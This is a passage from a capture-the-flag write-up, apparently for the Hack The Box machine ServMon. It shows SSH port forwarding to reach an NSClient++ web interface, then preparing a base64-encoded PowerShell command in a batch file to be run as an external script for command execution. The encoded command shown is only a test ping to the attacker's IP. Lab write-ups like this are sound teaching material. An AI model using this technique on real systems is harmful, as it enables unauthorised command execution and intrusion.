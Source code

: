 Only login from localhost is allowed, so the port has to be forwarded to our local client.
To do this the [SSH Control Sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) are used to get a SSH command line:
```
ssh> -L 8443:127.0.0.1:8443
```

Now port 8443 is forwarded through SSH and the web page can be accessed with localhost and allows login:
```
https://127.0.0.1:8443/index.html
```

This software can execute scripts and this is what we will do, to obtain command execution.

Encoding a `ping` command into **Base64**:
```
echo 'ping -n 1 10.10.14.15' | iconv -t utf-16le | base64 -w 0
```

Creating a batch script on the box:
```
nadine@SERVMON C:\Temp> echo powershell -EncodedCommand cABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADQALgAxADUACgA= > test.bat
```

Adding a new script on NSClient++:
```
Settings --> external scripts --> scripts --> Add new
```

![Add a simple script](servmon_web-3.png)
